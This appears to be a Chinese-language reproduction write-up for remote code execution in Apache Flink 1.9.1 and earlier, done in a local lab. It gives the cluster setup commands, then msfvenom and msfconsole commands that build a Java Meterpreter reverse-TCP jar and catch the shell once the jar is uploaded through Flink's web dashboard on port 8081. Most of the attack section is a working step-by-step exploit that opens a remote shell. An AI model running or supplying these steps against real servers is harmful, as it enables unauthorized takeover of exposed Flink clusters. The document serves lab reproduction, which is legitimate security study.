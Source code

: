 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
![image](./0.png)  
浏览器访问，出现下图所示，表示成功启动  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp  
set lhost 172.16.35.128  
set lport 9999  
run  
浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
![image](./2.png)  
再点击下图所示  
![image](./3.png)  
此时，meterpreter已经收到session，如下图  
![image](./3.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
